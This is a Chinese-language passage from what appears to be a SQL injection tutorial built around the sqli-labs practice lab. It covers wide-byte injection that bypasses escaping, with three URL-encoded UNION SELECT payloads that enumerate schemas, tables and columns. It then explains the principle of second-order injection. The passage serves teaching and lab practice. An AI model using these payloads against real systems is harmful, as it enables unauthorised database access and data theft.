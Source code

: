 ![image](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/SQL%E6%B3%A8%E5%85%A5/media/1634051626699272000383.png)
利用宽字节缺陷绕过转义

![image](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/SQL%E6%B3%A8%E5%85%A5/media/1634051626700627000919.png)
sql-labs第32关对应宽字节注入，payload如下：

```sql
?id=-1%df%27%20union%20select%201,2,group_concat(schema_name)%20from%20information_schema.schemata%20--+
?id=1.1%df%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%20--+
?id=1.1%df%27%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=0x75736572%20--+
```
# 10. SQL注入-二次注入

## 10.1. **二次注入原理**

二次注入可以理解为，攻击者构造的恶意数据存储在数据库后，恶意数据被读取并进入到SQL查询语句所导致的注入。

防御者可能在用户输入恶意数据时对其中的特殊字符进行了转义处理，但在恶意数据插入到数据库时被处理的数据又被还原并存储在数据库中，当Web程序调用存储在数据库中的恶意数据并执行SQL查询时，就发生了SQL二次注入。

![image](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/SQL%E6%B3%A8%E5%85%A5/media/1634051626704903000399.png)
## 10.2. 二次注入步骤
